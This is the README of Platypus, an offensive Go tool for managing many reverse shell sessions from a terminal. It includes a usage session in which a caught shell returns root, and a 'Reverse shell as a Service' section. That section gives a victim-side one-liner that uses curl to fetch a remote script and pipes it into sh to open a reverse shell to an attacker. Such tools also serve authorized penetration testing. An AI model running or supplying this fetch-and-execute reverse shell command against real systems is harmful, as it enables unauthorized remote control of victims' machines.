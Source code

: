 # Platypus

A modern multiple reverse shell sessions/clients manager via terminal written in go

#### Features
- [x] Multiple service listening port
- [x] Multiple client connections
- [x] RESTful API
- [x] Reverse shell as a service
- [ ] Upgrade common reverse shell session into full interactive session

#### Example
```
root@kali:~# go get https://github.com/WangYihang/Platypus
root@kali:~# go run Platypus.go
>> Help
Usage: 
	Help [COMMANDS]
Commands: 
Command
	execute a command on the current session
DataDispatcher
	DataDispatcher command on all clients which are interactive
Exit
	Exit the whole process
	If there is any listening server, it will ask you to stop them or not
Info
	Display the infomation of a node, using the hash of the node
Interact
	Pop up a interactive session, you can communicate with it via stdin/stdout
Jump
	Jump to a node, waiting to interactive with it
List
	Try list all listening servers and connected clients
REST
	Start a RESTful HTTP Server to manager all clients
Run
	Try to run a server, listening on a port, waiting for client to connect
Switching
	Switch the interactive field of a node, allows you to interactive with it
	If the current status is ON, it will turns to OFF. If OFF, turns ON
>> Run 0.0.0.0 8080
>> 2018/10/24 14:36:39 Server running at: [b62899ae4eb021ae6faa100b0d6f2ae8] 0.0.0.0:8080 (0 online clients) (started at: now)
>> 2018/10/24 14:37:05 New client [d14a421389af9436d7d4181774077dab] tcp://127.0.0.1:54798 (connected at: now) [false] Connected
>> List
2018/10/24 14:37:11 Listing 1 servers
[b62899ae4eb021ae6faa100b0d6f2ae8] 0.0.0.0:8080 (1 online clients) (started at: 31 seconds ago)
	[d14a421389af9436d7d4181774077dab] tcp://127.0.0.1:54798 (connected at: 6 seconds ago) [false]
>> Jump d
2018/10/24 14:37:12 The current interactive shell is set to: [d14a421389af9436d7d4181774077dab] tcp://127.0.0.1:54798 (connected at: 7 seconds ago) [false]
>> Interact
2018/10/24 14:37:14 Interacting with [d14a421389af9436d7d4181774077dab] tcp://127.0.0.1:54798 (connected at: 9 seconds ago) [false]
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
exit
>> REST 127.0.0.1 9090
2018/10/24 14:37:27 RESTful HTTP Server running at 127.0.0.1:9090
```

#### Reverse shell as a Service
```bash
# victim will be redirected to attacker-host attacker-port
sh -c "$(curl http://host:port/attacker-host/attacker-port)"
# if the attacker info not specified, it will use host, port as attacker-host attacker-port
sh -c "$(curl http://host:port/)"
```

#### TODO
- [ ] More interfaces in RESTful API
